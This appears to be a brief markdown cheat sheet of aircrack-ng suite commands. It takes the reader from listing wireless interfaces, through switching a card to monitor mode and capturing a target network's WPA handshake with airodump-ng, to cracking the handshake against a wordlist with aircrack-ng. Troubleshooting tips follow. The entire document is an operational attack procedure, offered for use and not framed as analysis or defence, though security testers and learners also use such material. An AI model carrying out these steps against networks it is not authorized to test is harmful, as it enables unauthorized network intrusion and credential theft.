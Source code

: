 ### list wireless network interfaces, as well as their current mode (managed/monitor/etc)
`iwconfig`

### other possibly helpful commands to view wireless device info
`ip a`
`ifconfig`
If your card doesn't show up, try, "ifconfig wlan0 up" or "ifconfig wlan1 up" and try again

### put specified wireless network interface in monitor mode. note that this will change the name of the interface
`airmon-ng start <card>`

### listen for handshakes, Recording captures to specified file
hint: first find the channel the target is on. add -c and then the channel number
`airodump-ng --write <outputFile> <wireless interface> -c <channel number>`

### crack handshake
`aircrack-ng <capfile.cap> -w <wordList>`

If it doesn't work:
	+ the password may not be in the list, try a new one
	+ you may have a bad handshake, try capturing a new one

